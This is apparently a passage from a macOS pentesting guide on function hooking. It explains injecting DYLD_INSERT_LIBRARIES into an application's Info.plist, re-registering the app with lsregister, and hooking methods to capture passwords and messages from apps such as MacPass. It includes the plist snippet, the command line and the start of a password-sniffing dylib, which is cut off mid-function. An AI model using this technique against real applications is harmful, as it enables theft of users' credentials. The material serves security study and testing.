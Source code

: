 ```objectivec
        method_setImplementation(originalMethod, original_substringFromIndex);

        return 0;
    }
}
```

## Hooking Attack Methodology

In this page different ways to hook functions were discussed. However, they involved **running code inside the process to attack**.

In order to do that the easiest technique to use is to inject a [Dyld via environment variables or hijacking](../macos-dyld-hijacking-and-dyld_insert_libraries.md). However, I guess this could also be done via [Dylib process injection](macos-ipc-inter-process-communication/index.html#dylib-process-injection-via-task-port).

However, both options are **limited** to **unprotected** binaries/processes. Check each technique to learn more about the limitations.

However, a function hooking attack is very specific, an attacker will do this to **steal sensitive information from inside a process** (if not you would just do a process injection attack). And this sensitive information might be located in user downloaded Apps such as MacPass.

So the attacker vector would be to either find a vulnerability or strip the signature of the application, inject the **`DYLD_INSERT_LIBRARIES`** env variable through the Info.plist of the application adding something like:

```xml
<key>LSEnvironment</key>
<dict>
    <key>DYLD_INSERT_LIBRARIES</key>
    <string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```

and then **re-register** the application:

```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```

Add in that library the hooking code to exfiltrate the information: Passwords, messages...

> [!CAUTION]
> Note that in newer versions of macOS if you **strip the signature** of the application binary and it was previously executed, macOS **won't be executing the application** anymore.

#### Library example

```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
```